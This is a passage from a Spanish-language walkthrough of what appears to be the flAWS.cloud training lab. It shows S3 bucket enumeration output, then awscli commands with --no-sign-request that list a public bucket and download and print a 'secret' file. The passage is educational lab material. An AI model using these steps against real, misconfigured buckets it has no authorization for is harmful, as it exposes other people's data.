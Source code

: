 ```bash
      ->http://flaws.cloud.s3.amazonaws.com/robots.txt
      ->http://flaws.cloud.s3.amazonaws.com/secret-dd02c7c.html
                            
 Elapsed time: 00:01:46

[+] Checking for AWS Apps
[*] Brute-forcing a list of 1453 possible DNS names
                            
 Elapsed time: 00:00:44


[+] All done, happy hacking!
```

Como se puede apreciar la herramienta encuentra un bucket de S3 que está abierto. Enumera varios archivos y recursos accesibles dentro de ese bucket.

> Se recomienda también la extensión [S3BucketList](https://github.com/AlecBlance/S3BucketList).


## Explotación

### Ataque sin autenticación

Durante el proceso de enumeración, se identificó un bucket S3 que está configurado como público. Para acceder a este bucket debemos realizar lo siguiente por medio de la utilidad ```awscli``` y el parámetro ```--no-sign-request```:

> apt install awscli

```bash
┌─[root@kali]─[/home/user/aws]
└──╼ aws s3 ls s3://flaws.cloud/ --no-sign-request
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html

```

Una vez detectamos archivos sensibles podemos descargarlos de la siguiente forma:

```bash
┌─[root@kali]─[/home/user/aws]
└──╼ aws s3 cp s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request
download: s3://flaws.cloud/secret-dd02c7c.html to ./secret-dd02c7c.html
```

```bash
┌─[root@kali]─[/home/user/aws]
└──╼ cat secret-dd02c7c.html 
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000; 
            border-width: 1px; border-style: solid;} 
        </style>
    </head>
<body 
  text="#00d000" 
```